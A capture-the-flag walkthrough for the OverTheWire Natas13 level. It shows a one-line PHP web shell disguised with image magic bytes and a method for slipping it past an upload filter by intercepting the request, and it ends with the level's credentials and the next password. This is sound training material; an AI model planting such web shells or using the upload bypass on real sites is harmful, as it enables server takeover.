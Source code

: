 # Natas13 — OverTheWire

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/BANNER.png" width="100%"/>](https://github.com/mauzware)

## 📸 Credentials

```
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
URL:      http://natas13.natas.labs.overthewire.org
```

---

## 🧠 Walkthrough

- Access the site using credentials.
- This is pretty much the same level as natas12 just with more sanitization, so we will do a GIF shell here.

  ```
  $ cat gifshell.php          
  GIF87a<?php echo shell_exec($_GET['cmd']); ?>
  ```
  
- Before uploading a shell, we need to add magic bytes.

  ```
  (echo -n -e '\xff\xd8\xff\xee'; cat gifshell.php) > gifshell2.php
  ```

- Same as for the last level, upload a shell (in my case `gifshell2.php`), intercept the request, and change extension back to `.php`.

- You will get a link to your shell, go there.

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas13/page.png"/>

- Don't get confused here, everything is working fine so execute the same command from the last level in order to read the password.

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas13/pw.png"/>

---

## 🏁 Password for the next level

`natas14 password is z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
